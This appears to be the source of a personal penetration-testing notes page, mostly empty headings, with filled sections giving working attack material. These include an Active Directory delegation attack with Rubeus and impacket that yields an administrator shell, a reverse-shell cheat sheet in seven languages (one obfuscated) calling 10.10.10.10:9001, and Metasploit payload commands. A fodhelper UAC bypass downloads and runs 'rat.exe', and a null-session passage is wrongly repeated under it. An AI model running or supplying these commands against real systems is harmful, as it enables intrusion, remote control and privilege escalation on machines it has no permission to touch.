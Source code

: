 ```yaml
---
layout: page
title: "/brainbox"
permalink: /brainbox/
---
```


# INFASTRUCTURE

<details><summary> <b>API</b> </summary><blockquote>
  <details><summary>REST</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>SOAP</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>


<details><summary> <b>WEB</b> </summary><blockquote>
    <br/>
Start with automated tools to search for low hanging fruits 
   Burpsuite Scanner
   OWASP Zap 
   Accunetix
   Nikto 
   
   
  <details><summary>SQLi</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>SSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>IDOR</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>XSS</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>BAC</summary><blockquote>
        Broken Access Control
    :smile:
  </blockquote></details>
    <details><summary>XXE</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>SDE</summary><blockquote>
        secure data exposure
    :smile:
  </blockquote></details>
    <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>MOBILE</b> </summary><blockquote>
  <details><summary>Android</summary><blockquote>
    ### Checklist
* unzip -d and apktool -d both (different outputs at time)
    
* check for /assets and /res/raw (api keys, encryption keys)
    
* sensitive files and external storage (world readable  & writeable)
    
* executables & log files on external storage
    
* look at manifest (WRITE_EXTERNAL_STORAGE)., grep for "getExternal"
    
* check for installed package "vnd.android.package-archive" (they want to install something)
    
* hidden directories (.folder)
    
* api keys saved as bytearray to obfuscate
    
* identify crypto & understand it
    
* webSettings.setJavaScriptEnabled(True); means we might be able to XSS
    
* interesting options: "setAllowContent", "setAllowFileAccess", "setAllowFileAccessFromFileURILS", "setAllowUniversalAccessFromFileURLs", "setJavaScriptEnabled", "setPluginState", "setSavePassword"
    
* overwriting ssl errors :facepalm:
    
* xss might allow to call Runtime.getRuntime().exec() (CVE-2012-6636) <= Api17
                                                                           
* use Mitm Proxy (mitm.it has the cert)
                                                                           
    :smile:
  </blockquote></details>
  <details><summary>iOS</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>*NIX</b> </summary><blockquote>
  <details><summary>Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>Privilege Escalation</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>Post Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>WINDOWS</b> </summary><blockquote>
  <details><summary>Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>Privilege Escalation</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>Post Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>ACTIVE-DIRECTORY</b> </summary>
    <details><summary>Initial Access</summary>
        content 1.1
    </details>
    <details><summary>Local Privilege Escalation</summary>
        content 1.2
    </details>
  <details><summary>Post Exploitation</summary>
        content 1.2
    </details>
    <details><summary>Lateral Movement</summary>
        <details><summary>Constrained Delegation</summary>
       
          
          
          
          First off, download two PS scripts in local machine..

```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
wget https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1
```

Then upload them to the target machine.

```bash
# Evil-WinRM
upload PowerView.ps1
Import-Module .\PowerView.ps1
upload Powermad.ps1
Import-Module .\Powermad.ps1
```

1. **Check User's Permission and Windows Versions**

    Check if users are allowed to create a new computer object on the domain.

    ```bash
    Get-DomainObject -Identity "dc=example,dc=com" -Domain example.com

    # -------------------------
    # Result
    ms-ds-machineaccountquota: 10
    ```

    And check if the machine is at least Windows Server 2012.

    ```bash
    Get-DomainController

    # -------------------------
    # Result
    OSVersion: Windows Server 2022 Standard
    ```

    Additionally, check if the target computer does not have the attributes **“msds-allowedtoactionbehalfofotheridentity”** set.

    ```bash
    hostname
    Get-NetComputer <hostname> | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity

    # ------------------
    # Result
    name msds-allowedtoactonbehalfofotheridentity
    ---- ----------------------------------------
    <HOSTNAME>   {1, 0, 4, 128...}
    ```
      
    ```bash
      .\Rubeus.exe s4u /user:HOST$ /rc4:rc4ORntml /msdsspn:CIFS/host.domain.com /impersonateuser:administrator /ptt
      
       dir \\host.domain.com\C$
    ````  

2. **Create a New Computer**

    Now you can create a new computer object.

    ```bash
    New-MachineAccount -MachineAccount TEST01 -Password $(ConvertTo-SecureString '12345' -AsPlainText -Force)
    Get-DomainComputer test01

    # ----------------------
    # Result (copy the id)
    objectsid: S-1-5-21-1677581083-3380853377-188903654-5103
    ```

    Create a new raw security descriptor.

    ```bash
    $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;<objectid-of-a-new-computer>)"
    $SDBytes = New-Object byte[] ($SD.BinaryLength)
    $SD.GetBinaryForm($SDBytes, 0)
    Get-DomainComputer <hostname> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
    ```

3. **Impersonate to Get a Ticket**

    Download Rubeus.exe in local machine.

    ```bash
    wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe
    ```

    Then upload it to the target machine and generate a RC4 hash.

    ```bash
    # Evil-WinRM
    upload Rubeus.exe
    .\Rubeus.exe hash /password:12345 /user:test01 /domain:example.com

    # -------------------------
    # Result (copy the rc4 hash)
    rc4_hmac: 32ED87BDB5FDC5E9CBA88547376818D4

    ```

    You can request a Kerberos ticket for a new machine account while impersonating an administrator.

    ```bash
    .\Rubeus.exe s4u /user:test01$ /rc4:<rc4-hash> /impersonateuser:administrator /msdsspn:cifs/<hostname>.example.com /ptt

    # --------------
    # Result (copy the output long hash at the last)
    ```

    Generate a ticket

    ```bash
    [IO.File]::WriteAllBytes("C:\Users\<username>\Documents\ticket.kirbi", [Convert]::FromBase64String("<new-output-hash>"))
    download ticket.kirbi
    ```

4. **Make the Ticket Usable and Use It**

    Download “ticket_converter.py”.

    ```bash
    wget https://raw.githubusercontent.com/zer1t0/ticket_converter/master/ticket_converter.py
    ```

    Destroy any tickets in local machine, and convert the ticket to Linux usable, then set the new ticket’s path.

    ```bash
    kdestroy
    python3 ticket_converter.py ticket.kirbi ticket.ccache
    export KRB5CCNAME=ticket.ccache
    ```

    We can use the ticket to get a shell.

    ```bash
    impacket-wmiexec example.com/administrator@<hostname>.example.com -no-pass -k
    ```
      
      
      
    </details>
    </details>
    <details><summary>Clearing Tracks</summary>
        content 1.2
    </details>
</details>

<br/>

<details><summary> <b>CLOUD</b> </summary><blockquote>
  <details><summary>AZURE</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>AWS</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>
<details><summary> <b>SHELLS</b> </summary><blockquote>
  <details><summary>Reverse Shells</summary><blockquote>
#### Python
```python
  python -c 'import pty;pty.spawn("/bin/bash")';
```
    
#### Python
```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
    
#### PHP
```php
    php -r '$sock=fsockopen("10.10.10.10",9001);system("sh <&3 >&3 2>&3");'
```
    
#### Bash
```bash
    sh -i >& /dev/tcp/10.10.10.10/9001 0>&1
 ```
    
#### PHP Emoji
```php
    php -r '$ð="1";$ð="2";$ð="3";$ð="4";$ð="5";$ð="6";$ð="7";$ð="8";$ð="9";$ð="0";$ð¤¢=" ";$ð¤="<";$ð¤ =">";$ð±="-";$ðµ="&";$ð¤©="i";$ð¤=".";$ð¤¨="/";$ð¥°="a";$ð="b";$ð¶="i";$ð="h";$ð="c";$ð¤£="d";$ð="e";$ð="f";$ð="k";$ð="n";$ð="o";$ð="p";$ð¤="s";$ð="x";$ð = $ð. $ð¤. $ð. $ð. $ð. $ð. $ð. $ð. $ð;$ð = "10.10.10.10";$ð» = 9001;$ð = "sh". $ð¤¢. $ð±. $ð¤©. $ð¤¢. $ð¤. $ðµ. $ð. $ð¤¢. $ð¤ . $ðµ. $ð. $ð¤¢. $ð. $ð¤ . $ðµ. $ð;$ð¤£ =  $ð($ð,$ð»);$ð½ = $ð. $ð. $ð. $ð;$ð½($ð);'
```
    
#### C
```c
    #include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 9001;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("10.10.10.10");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"sh", NULL};
    execve("sh", argv, NULL);

    return 0;       
}
```
    
#### Powershell
    
```powershell
    powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
 ```

#### NodeJS
```javascript
    (function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(9001, "10.10.10.10", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```
    
    
    :smile:
  </blockquote></details>
  <details><summary>Web Shells</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>


<br/>
<br/>

## Metasploit 
#### ./ Multi Use Handlers

```bash 
msf6 > use exploit/multi/handler
msf6 > set PAYLOAD <Payload name>
msf6 > set LHOST <LHOST value>
msf6 > set LPORT <LPORT value>
msf6 > set ExitOnSession false
msf6 > exploit -j -z
```
<br/>
Once the required values are completed the following command will execute your handler: ‘msfconsole -L -r' 
<br/>
<br/>

#### ./ Scripting Payloads
PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> lport=<your-port-address> -o shell.php
```

<br/>

## Python
#### ./ Spawn a terminal

```python
python -c 'import pty;pty.spawn("/bin/bash")';
```
<details> 
  <summary> <b>Checking for Null Sessions</b> </summary>

To verify that, we will exploit the IPC$ administrative share by trying to connect to it without valid credentials.

To connect, you have to type the following command in a Windows shell:

```bash
> NET USE \\<target IP address>\IPC$ '' /u:''
```

This tells Windows to connect to the IPC$ share by using an empty password and an empty username!

Let's try the command on our target:

<br/>
<img src="/assets/images/pts_labs/null_sessions/checking11.png" height="50%" width="50%">
<br/>


The previous command establishes a connection to the IPC$ administrative share without specifying a user; this is possible because our target host is vulnerable to null session attacks. This test only works with the IPC$. For example, it does not work with C$:
  
Example:
<br/>
<img src="/assets/images/pts_labs/null_sessions/checking12.png" height="60%" width="60%">
<br/>
You can also perform the very same checks by using smbclient:
<br/>
<img src="/assets/images/pts_labs/null_sessions/checking13.png" height="70%" width="70%">
</details>

  
  
  
  
  
  
  
  
  
  
  
  
  
  <details> 
  <summary> <b>UAC Bypass</b> </summary>
    
    
 https://tcm-sec.com/bypassing-defender-the-easy-way-fodhelper

```ps
https://tcm-sec.com/bypassing-defender-the-easy-way-fodhelper
iwr -Uri http://10.10.10.11/rat.exe -Outfile C:\rat.exe

New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "powershell.exe -exec bypass -c C:\rat.exe" -Force

execute the binary
C:\Windows\System32\fodhelper.exe
```
    
<br/>
<img src="/assets/images/pts_labs/null_sessions/checking11.png" height="50%" width="50%">
<br/>


The previous command establishes a connection to the IPC$ administrative share without specifying a user; this is possible because our target host is vulnerable to null session attacks. This test only works with the IPC$. For example, it does not work with C$:
  
Example:
<br/>
<img src="/assets/images/pts_labs/null_sessions/checking12.png" height="60%" width="60%">
<br/>
You can also perform the very same checks by using smbclient:
<br/>
<img src="/assets/images/pts_labs/null_sessions/checking13.png" height="70%" width="70%">
</details>
